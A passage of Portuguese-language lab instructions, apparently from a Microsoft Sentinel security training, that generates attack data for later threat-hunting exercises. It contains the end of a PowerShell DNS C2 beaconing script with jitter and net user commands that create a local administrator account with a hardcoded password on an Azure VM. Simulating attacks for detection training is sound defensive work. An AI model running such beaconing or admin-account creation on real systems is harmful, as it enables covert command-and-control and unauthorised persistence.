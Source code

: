             $x2 = 1
    
        }
        else
        {
            $x2 = $x2 + 1
        }
        
        if ($x3 -eq 7 )
        {
    
            Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    
            $x3 = 1
            
        }
        else
        {
            $x3 = $x3 + 1
        }
    
    
        $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
        Start-Sleep -Seconds $Jitter
    }
    Until ($TimeNow -ge $RunEnd)
    ```

No prompt de comando, insira o comando em cada linha pressionando a tecla Enter após cada linha:

    ```PowerShell
    .\c2.ps1
    ```

>**Observação:** você verá erros de resolução. Isso é normal.
Deixe esse script command/powershell ser executado em segundo plano. Não feche a janela.  O comando precisa gerar entradas de log por algumas horas.  Você pode prosseguir para a próxima tarefa e os próximos exercícios enquanto este script é executado.  Os dados criados por essa tarefa serão usados no laboratório de Busca de ameaças posteriormente.  Este processo não criará quantidades substanciais de dados ou processamento.

### Tarefa 2: atacar o Windows configurado com o Agente do Azure Monitor (AMA)

Nesta tarefa, você realizará ataques em um host com o conector Eventos de Segurança configurado e o Sysmon configurado.

1. Selecione a máquina virtual `AZWIN01` que você criou anteriormente.  

1. No menu à esquerda, role para baixo até **Operações** e selecione **Executar comando**

1. No painel **Executar comando**, selecione **RunPowerShellScript**

1. Copie os comandos abaixo para simular a criação de uma conta de administrador no formulário `PowerShell Script` e selecione **Executar**

    ```CommandPrompt
    net user theusernametoadd /add
    net user theusernametoadd ThePassword1!
    net localgroup administrators theusernametoadd /add
    ```

    >**Observação**: certifique-se de que há apenas um comando por linha e você pode executar novamente os comandos alterando o nome de usuário.

1. Na janela `Output`, você deve ver `The command completed successfully` três vezes
